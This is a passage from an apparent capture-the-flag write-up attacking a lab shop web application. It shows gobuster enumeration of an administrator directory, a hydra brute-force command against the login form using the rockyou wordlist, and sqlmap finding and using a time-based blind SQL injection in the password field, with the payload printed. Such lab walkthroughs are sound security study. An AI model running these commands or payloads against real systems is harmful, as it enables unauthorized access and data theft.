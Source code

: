 drilling down to the administrator directory:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -q -x php,txt,html,dic -u http://192.168.56.254/shop/administrator
/index.php            (Status: 200) [Size: 514]
/login.php            (Status: 200) [Size: 0]  
/profile.php          (Status: 302) [Size: 216] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
{% endhighlight %}

Using hydra to try and bruteforce the login form:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.254 http-post-form "/shop/administrator/index.php:username=^USER^&password=^PASS^&submit=+Login+:Username or Password is invalid" -vV
{% endhighlight %}

I let this run for around 59000 attempts with no luck. Moving on. 
Maybe the login form is vulnerable to SQL injection. I used sqlmap to see if any of
the form fields are vulnerable: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ sqlmap -u http://192.168.56.254/shop/administrator/ --forms
--SNIP--
[16:20:03] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
--SNIP--
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 126 HTTP(s) requests:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=OpQn&password=' AND (SELECT 8266 FROM (SELECT(SLEEP(5)))NQpB) AND 'lNAB'='lNAB&submit= Login
--SNIP--
{% endhighlight %}

The password field is vulnerable. 
Getting the available databases:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ sqlmap -u http://192.168.56.254/shop/administrator/ --forms --tables
--SNIP--
[16:26:02] [INFO] retrieved: Webapp
[16:26:23] [INFO] retrieved: mysql
[16:26:39] [INFO] retrieved: performance_schema
[16:27:36] [INFO] fetching tables for databases: 'Webapp, information_schema, mysql, performance_schema'
--SNIP--
{% endhighlight %}
